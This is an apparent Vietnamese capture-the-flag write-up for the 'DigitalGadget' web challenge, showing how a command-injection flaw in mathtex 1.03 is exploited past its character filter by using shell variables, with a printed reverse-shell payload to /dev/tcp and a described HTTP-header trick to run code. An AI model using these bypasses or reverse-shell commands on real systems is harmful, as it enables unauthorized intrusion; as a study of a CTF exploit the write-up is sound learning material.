






# A few words...
Đây là WU cho vòng sơ khảo, nếu chung khảo mình có được đề thì cũng sẽ thử giải. Mảng web vòng sơ khảo có 3 bài, mình có xem qua 2 bài đầu thì khá dễ và hơi xàm, còn bài thứ 3 thì trong thời gian diễn ra, không team nào giải được. 

Bài này lấy ý tưởng từ 1 CVE của mathtex, nhưng tác giả đã biến tấu đi để làm cho nó khó hơn khá là nhiều. Trong thời gian diễn ra giải, thì có nhiều ý kiến cho rằng bài này là sai, là không thể giải được, nhiều web player vjp bro trên khắp ASEAN cũng nhận định như vậy, chắc là do nhiều vấn đề kĩ thuật xảy ra trong kì thi nên các bạn bị mất niềm tin vào đề thi và ban tổ chức (?). 

Mình thì thấy tác giả confirm là đề không sai, nên lựa chọn tin tưởng và ngồi ngâm cứu sau khi nhận được đề. Sau cùng với big hint từ anh tungpt (cựu sinh viên K11 của đại học FPT, big credit to you, tungpt 🥳) và mấy đêm thức không khuya cho lắm (bố mẹ đừng đọc được dòng này...) thì cuối cùng cũng đã chứng minh BTC xứng đáng gia nhập hội "the Liêm" và chỉ có mấy thằng `"tứ đại bổ túc"` FPT mới đi làm cái bài đéo ai thèm làm được 🤣🤣🤣. 

# Table of contents
- [A few words...](#a-few-words)
- [Table of contents](#table-of-contents)
- [DigitalGadget](#digitalgadget)
  - [Description](#description)
  - [Reconnaissance](#reconnaissance)
  - [Exploit](#exploit)

# DigitalGadget
## Description
- Tên bài: DigitalGadget
- Source code: [source code](./DigitalGadget)
- Ảnh: 

## Reconnaissance

- Với source code cho sẵn (nghe nói được cho khi cuộc thi còn 1 nửa thời gian), chúng ta dễ dàng dựng được môi trường local để test. 
- Đoc Dockerfile, nhận thấy dị điểm là machine có cài mathtex, một module CGI để render image từ LaTeX.

- Nhảy vào docker bằng lệnh docker exec, chúng ta có thể kiểm tra được version của mathtex được cài là: `1.03`

- Mathtex phiên bản 1.03 có 1 tá lỗ hổng, được mention trong bài viết [này](https://blog.yulun.ac.cn/posts/2023/fuzzing-mathtex/). Mình chỉ biết mỗi chơi web, và bài này ở category web, nên mình sẽ tạm bỏ qua đống lỗ hổng phía dưới về buffer/stack overflow mà tập trung vào Bug 1: Command Injection. Chi tiết thì mời đọc bài viết, và nên đọc bài để biết về phần mà mathtex đã filter để tránh command injection.
- Theo bài viết, thì có vẻ là ốp mỗi payload như thế này là ăn luôn rồi !?

- Nhưng làm gì có kèo thơm tới thế. Bất cứ request tạo image gửi tới `/cgi-bin/mathtex.cgi` đều dính ngay lỗi thiếu quyền và không thể tạo được image. (Với 1 server được set up bình thường, khi ốp payload, chúng ta sẽ nhận được 1 image chứa command output, nhưng ở đây không thấy được gì cả)

- Đây là điều khiến mọi người tranh cãi, vì cho rằng docker không được set up cho chuẩn, rằng mình tìm được WU rồi, phải ốp payload là ăn ngay, rằng là bài này không giải được, rằng là người ra đề láo, không chịu test, bla bla bla... Nhưng từ việc setup như thế này, tác giả đã đưa cho mình 1 challenge rất hay và thú vị. 

## Exploit
- Ok, mình thì không phải dân chơi web chuyên cho lắm, nhưng cũng biết là nếu không nhận được command output,thì bài này là blind command injection và phải nghĩ ngay tới reverse shell chứ nhỉ. Nhưng chúng ta gặp ngay tới tảng đá to đùng tiếp theo: `Filter chống command injection của Mathtex`.

- Filter được viết khá kĩ, như trên hình thì chỉ có thể viết những command đơn giản kiểu `ls`, `cd`,... còn với reverse shell thì theo như mình tìm hiểu, cần phải chứa thêm các kí tự như `()`, `&`, `<>`. Payload reverse shell đơn giản nhất mà mình biết cũng cần kí tự `>` và `/` để hoạt động chứ chỉ với `;` và `$IFS` thì quá khó. Link tham khảo: [HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/reverse-shells/linux#bash-or-sh). Đồng thời machine cũng không cài bất cứ package nào để connect ra thế giới bên ngoài kiểu `nc`, `socat`,... nên việc tạo reverse shell càng khó khăn hơn.
- Tới hết giải thì mình thấy có một bạn trong channel telegram của giải đưa ra 1 payload để ghi file vào thư mục `/var/tmp`. Đây là chi tiết đáng chú ý vì với `/tmp` đã bị đánh quyền `000` thì chỉ còn `/var/tmp` là lựa chọn cuối cùng để ghi 1 cái gì đó lên hệ thống (user chạy web là `www-data` khá hạn chế về mặt write).
- Anh tungpt có tìm được rằng trong linux, có 1 số các biến môi trường đặc biệt, bên cạnh `$IFS`, chúng ta có `$PS2` = `> ` và có thể gán giá trị cho một số biến `$1`, `$2`,... để sử dụng và bypass filter.
- Từ idea trên, mình đã tạo ra 1 payload sau và chúng ta sẽ có 2 biến `$1` = `/` và `$2` = `>`.

- Với các biến trên, mình đã tạo payload và chạy trên terminal
```bash
bash$IFS-c$IFS$3$2$1dev$1tcp$10.0.0.0$190909
```
tương ứng với bash command
```bash
bash -c bash>/dev/tcp/0.0.0.0/9090
```
- Nhưng với payload trên, connect tới reverse shell sẽ bị ngắt ngay khi chúng ta gửi payload. Mình thử thay `bash` thứ 2 bằng các lệnh đơn giản như `ls` thì vẫn nhận được output. Nhưng kết nối sẽ không được duy trì mà chỉ execute 1 lần duy nhất. Ngoại reverse shell này, các payload reverse shell khác đều cần kí tự `&`, và mình đã thử tìm tuy nhiên không có cách nào để tạo ra kí tự `&` từ các biến môi trường với số filter gần như là không góc chết của module mathtex.
- Mình đã thử khá nhiều cách để bypass và gần như bỏ cuộc vì không thể tạo 1 connect ổn định tới reverse shell (trong đó có việc bỏ qua reverse shell và thử chỉ redirect mỗi output của command cat file flag. Cách này hoạt động khi gõ lệnh trên terminal, nhưng khi gửi request thì lại không họat động (?)). Lúc này anh tungpt xuất hiện với phát kiến vĩ đại 

- Không biết anh đọc ở đâu nhưng đây là link tài liệu mình tìm được [về việc Apache sẽ chuyển HTTP header thành biến môi trường cho CGI script](https://httpd.apache.org/docs/trunk/env.html#setting)
- Tới đây thì bài toán là phải ghi payload reverse shell vào file và chạy file đó. Mình đã dùng `eval` để execute câu lệnh `echo`. Dưới đây là payload cuối cùng


- Với payload trên, mình đã gửi request và nhận được reverse shell.
- Flag:
 